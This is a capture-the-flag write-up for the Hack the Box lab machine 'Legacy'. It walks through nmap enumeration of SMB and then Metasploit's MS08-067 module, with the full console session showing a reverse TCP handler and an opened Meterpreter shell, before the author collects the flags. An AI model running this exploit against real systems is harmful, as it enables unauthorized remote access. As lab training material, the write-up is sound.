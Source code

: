### Introduction 

This Hack the Box challenge is a fairly simplistic, uncomplicated challenge. Doing this challenge highlights the security vulnerabilities that are associated with SMB on Windows. To do this challenge, the skills required isn't too high, one just needs to know how to enumerate the box/network and basic windows knowledge. Doing this challenge will develop skills such as identifying services that are vulnerable to attacks, how to carry out said attacks, and any tools used.

### Enumeration - two ways

There a couple options/tools one can use for enumeration. One of which is zenmap (basically nmap GUI). One can open the zenmap by simply typing ```zenmap``` in the console (in Kali Linux). When zenmap is opened, typing in the machine's ip ```10.10.10.4``` and using the ```intenese scan``` will yield the result:

![legacy](https://user-images.githubusercontent.com/41026969/52360132-4871ca80-2a09-11e9-8881-d19973e720a4.png)
![legacy](https://user-images.githubusercontent.com/41026969/52360714-ae128680-2a0a-11e9-8a3f-6786cef4cde0.png)

Reading the above, we can see that SMB is left open, it is also revealed that the OS is likely to be Windows XP.

Zenmap isn't necessary to enumerate, one can also use ```nmap```. More specifically I like to add the following ```nmap -Pn --script [address]```. When doing so on the target IP, we get the result:

![legacy](https://user-images.githubusercontent.com/41026969/52376078-32770080-2a2f-11e9-8242-3e4ca8fc9254.PNG)

So using one of the scans above, we learn that port 139 and 445 are open. Reading about the ports ([here](https://www.thewindowsclub.com/smb-port-what-is-port-445-port-139-used-fora0) and [here](https://docs.microsoft.com/en-us/windows/desktop/fileio/microsoft-smb-protocol-and-cifs-protocol-overviewa0)) we learn that port 139 is used for TCP NetBios connections with a system running Samba (SMB) to facilitate file sharing activities over a connection. Also we learn that port 445  is ```‘SMB over IP’```. Continuing to read about port 445 reveals that SMB can be a vulnerability ```Port 445 is vulnerable and has many insecurities```. 

### Exploiting

Googling exploits for Windows XP SMB exploit we find a module that we can use using metasploit - ```exploit/windows/smb/ms08_067_netapi```. Here's what I did with metasploit:
```
       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set rhost 10.10.10.4
rhost => 10.10.10.4
msf exploit(windows/smb/ms08_067_netapi) > set rport 445
rport => 445
msf exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on [host IP]
[*] [host IP] - Automatically detecting the target...
[*] [host IP] - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] [host IP] - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] [host IP] - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened ([host IP] -> 10.10.10.4:1029) at 2019-02-06 18:01:37 -0500
```
Going through command by command, first I set the remote host ```rhost``` to the target IP, then I set the remote port using ```rport``` then using the command ```exploit``` will carry out the exploit. Doing so succesfully will get us a shell in the system (note: remember this is a windows system). 

Looking up for the [file system path](https://www.computerhope.com/issues/ch000928.htm), we see that for Windows XP 2000, we use the path ```c:\documents and settings\(username)\desktop``` to get to a user's desktop to look for flags. I used the commands ```pwd``` and the ```cd ..``` to print the working directory and to change directory (the ```..``` will go to the directory above) to navigate throughout the box. 

Looking around the machine, we find an ```Administration``` account and another account named ```john```. Looking at their desktops we get the root and the user flag!
 
### Post exploitation 
Doing this challenge I learned what port 139 and 445 does and what SMB is and does. Continuing to research these ports, I learned that port 445 is vulnerable as seen from the box. To defend against this attack, using windows firewall to not keep ports (in this case, 139 and 445) open. One can also do security patches and updates for their Windows version to protect against CVEs. 
